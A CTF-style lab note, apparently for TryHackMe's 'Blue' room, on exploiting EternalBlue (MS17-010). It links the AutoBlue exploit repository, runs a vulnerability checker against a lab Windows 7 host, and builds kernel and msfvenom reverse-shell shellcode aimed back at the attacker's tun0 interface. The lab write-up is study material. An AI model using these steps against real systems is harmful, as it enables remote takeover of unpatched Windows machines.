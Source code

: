 ###### Working exploit

Google  `working eternal blue exploit github`

> https://github.com/3ndG4me/AutoBlue-MS17-010

> [!NOTE] Python capabilities
> Some exploits won't work for latest python versoin, follow this guide to install old python3 versions
> https://ngangasn.com/how-to-install-python-on-kali-linux/
> 
> - After installation, remember to upgrade pip
> ```bash
> sudo python3.8 -m pip install --upgrade pip
> ```

```bash
┌──(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ python3.8 -m venv venv

┌──(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ source ./venv/bin/activate

┌──(venv)─(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ python -V
Python 3.8.0

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ pip install --upgrade pip

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ pip install -r requirements.txt
```

No named pipes to use

```bash
┌──(blue-OE27Ga6J)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ python3 eternal_checker.py 10.10.167.139
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

> [!Notes] If namepipes is available
> This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.
> 
> ```bash
> python zzz_exploit.py $TARGET_IP
> ```

Generate shellcode

```bash
cd shellcode

# Comiple kernal shellcode
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

# Generate shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=tun0 LPORT=1111

# Merge shellcode
cat sc_x64_kernel.bin sc_x64_msf.bin > shell.bin
```

